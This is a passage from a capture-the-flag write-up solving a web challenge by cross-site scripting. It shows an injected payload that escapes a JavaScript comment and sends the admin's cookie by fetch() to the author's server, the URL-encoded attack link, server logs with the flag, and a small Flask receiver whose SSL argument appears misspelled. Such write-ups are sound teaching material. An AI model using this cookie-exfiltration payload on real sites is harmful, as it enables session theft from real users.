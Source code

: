 To exploit this vulnerability we need to find an input that will allow us to escape the
comment, escape the function, and then insert code that will send the admin's cookie back
to us. We also need to ensure that the code after our input doesn't cause a syntax error,
that is the closing brace of the function must be matched by an opening brace in our
input.

```js
*/}fetch("https://backend.stackotter.dev:8000/?"+document.cookie);{/*
```
Figure 2: *the payload I used to exfiltrate the admin's cookie.*

First, I escaped the comment and the function simply by closing them, then I used `fetch`
to send the admin's cookie to a server I control, then I used a `{` to ensure that the
original closing brace was matched (it'll get parsed as an empty object), and finally
I used a `/*` to ensure that the closing delimiter of the comment we escaped gets matched.

```js
function deadcode(){
  /**/}fetch("https://backend.stackotter.dev:8000/?"+document.cookie);{/* */
}

// With some clean up, the code becomes a lot more clear.
function deadcode() {}
fetch("https://backend.stackotter.dev:8000/?"+document.cookie);
{}
```
Figure 3: *the payloaded inserted into the original script and cleaned up to demonstrate how it works.*

Putting this payload through CyberChef's `URL Encode` recipe with `Encode all special chars` enabled
gives us the value to pass to `js` in the URL. Sending the following URL to the admin successfully
got the admin's cookie to turn up in the logs of the server I controlled;
https://green.web.ctf.bsidesbne.com/?js=%2A%2F%7Dfetch%28%22https%3A%2F%2Fbackend%2Estackotter%2Edev%3A8000%2F%3F%22%2Bdocument%2Ecookie%29%3B%7B%2F%2A

```
3.24.244.16 - - [23/Jul/2023 12:52:31] "GET /?flag=flag{77eeaaa231a792f0e8f2f650a12e6929} HTTP/1.1" 200 -
```
Figure 4: *the server logs containing the flag.*

Flag: `flag{77eeaaa231a792f0e8f2f650a12e6929}`

Note that I had to use an `https` web server with my payload because of CORS, but it turns out that
by using fetch's `no-cors` mode to ignore CORS I could've used a regular `http` server. Using `no-cors`
restricts what parts of the request we can control and what parts of the response we can read, but
that doesn't matter in this case. Thanks OMGasm for pointing out this improvement after the CTF!

I have included the simple server code that I used, it really wasn't anything fancy. If you don't
have a server available, I've heard that you can also try [ngrok](https://ngrok.com) for these
kinds of challenges.

```python
from flask import Flask
from flask_cors import CORS

app = Flask(__name__)
CORS(app)

@app.route("/")
def index():
  return "hi"

# Cert generated by certbot and was already installed on the server for another website.
app.run("0.0.0.0", 8000, ssl_content=("keyfile.pem", "privkey.pem"))
```
Figure 5: *the server code used to receive the flag from the admin's browser.
